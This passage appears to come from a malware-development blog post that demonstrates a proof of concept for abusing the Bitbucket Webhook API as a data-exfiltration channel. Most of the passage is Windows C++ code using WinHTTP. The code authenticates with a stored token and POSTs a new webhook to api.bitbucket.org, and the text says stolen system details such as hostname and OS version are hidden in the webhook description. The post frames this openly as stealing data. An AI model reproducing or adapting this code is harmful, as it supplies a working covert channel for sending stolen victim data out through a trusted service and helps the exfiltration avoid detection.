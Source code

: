![malware](/assets/images/175/2025-08-29_04-13.png){:class="img-responsive"}    

The webhook API specifically allows applications to set up HTTP callbacks to interact with external services when events like pushes or pull requests happen.    

Let me show PoC with simplest logic: we'll be interacting with the Bitbucket Webhook API to create a new webhook in a repository. We will steal system information and add it to the *description of the webhook*. The system information will include hostname, OS version, etc. as usual:     

```cpp
snprintf(authHeader, sizeof(authHeader), "Authorization: Basic %s", BITBUCKET_TOKEN_BASE64);
 
hSession = WinHttpOpen(L"Agent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
hConnect = WinHttpConnect(hSession, L"api.bitbucket.org", INTERNET_DEFAULT_HTTPS_PORT, 0);

char path[512];
snprintf(path, sizeof(path), "/2.0/repositories/%s/%s/hooks", BITBUCKET_WORKSPACE, BITBUCKET_REPO);

wchar_t wpath[512];
MultiByteToWideChar(CP_ACP, 0, path, -1, wpath, 512);

hRequest = WinHttpOpenRequest(hConnect, L"POST", wpath, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

wchar_t wauthHeader[512];
wchar_t wctypeHeader[] = L"Content-Type: application/json";
MultiByteToWideChar(CP_ACP, 0, authHeader, -1, wauthHeader, 512);

WinHttpAddRequestHeaders(hRequest, wauthHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);
WinHttpAddRequestHeaders(hRequest, wctypeHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);

WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0);
```
